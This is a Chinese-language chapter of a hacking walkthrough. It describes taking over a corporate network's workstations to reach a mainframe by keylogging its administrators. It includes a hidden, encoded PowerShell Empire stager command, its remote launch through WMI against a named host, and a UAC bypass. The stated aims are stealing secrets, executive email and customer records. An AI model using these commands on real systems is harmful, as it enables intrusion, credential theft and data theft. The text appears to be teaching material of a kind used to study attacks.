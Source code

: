 # 第六章、难以想象的黑客攻击

> 一切皆有可能！ -- 巴尼·斯汀森（Barney Stinson）

现在我们有了通往王国的钥匙，我们可以完全专注于实现我们“访问”的真正目的:
- 获取商业秘密、人力资源和商业战略文件
- 转储CEO的珍贵邮件。泄露客户记录

## 6.1.首要位置
我们可以直接攻击主机（端口扫描、暴力等），但我们真的需要吗？让我们聪明一点…我们控制网络上的每个Windows工作站。大型机管理员使用这些相同的工作站连接到大型机。如果我们能监视他们并获取他们的密码，那么我们就能进入主机！

我们使用10.10.20.118上的net命令展开mainframeAdms组:
![](./Chap6/1.netgroup.jpg)

我们使用Invoke UserHunter或Invoke EventHunter来定位Barney和Rev的工作站，就像我们之前使用Juliette的计算机一样，然后准备我们的攻击载荷。

我们可以用不同的方法在他们的工作站上运行键盘记录器:
- 窃取他们的凭据并使用pass-the-hash远程连接到他们的工作站以启动键盘记录器。（尽管这些帐户需要具有本地管理权限，但事实显然并非如此。）
- 使用域帐户用empire agent(Empire 是一个纯粹的 PowerShell 后开发代理建立在密码安全的通信和灵活的架构。Empire实现了无需powershell.exe 即可运行 PowerShell代理的功能，从键盘记录器到 Mimikatz 等快速部署的后期开发模块，以及适应性通信以逃避网络检测，所有这些都包含在以可用性为中心的框架中。)感染他们的工作站，然后启动键盘记录器。
- 部署针对他们的恶意GPO。

我们选择第二个选项是因为Barney的计算机允许我们使用WMI执行远程命令（他的计算机上的PRC端口是打开的：端口135和高于49152的端口）。

我们在前线服务器上生成stager的代码:
```
(Empire: stager/launcher) > set Listener test
(Empire: stager/launcher) > generate
powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AGUAbQAuAE4ARQBUAC4AUwBl
```

然后我们将其包含在10.10.20.118计算机的WMI远程调用中:
```
PS> invoke-wmimethod -ComputerName FRPC021 win32_process -name create -argumentlist ("powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AGUYA…")
```

当然，我们有一个新的代理连接到adm_supreme帐户:
![](./Chap6/2.empire-stager.jpg)

我们使用经过验证的bypassuac_eventvwr模块绕过UAC，然后与新提权的会话交互。

但是，如果我们使用这个会话启动一个键盘记录程序，我们将只得到barney的工作站上adm_supreme帐户所按下的按键…这意味着0个按键。这个限制是由于PowerShell Empire框架中的键盘记录器的简单性造成的。当然，它有它的优点：它是一个非常轻量级的模块，不会产生太多噪音。
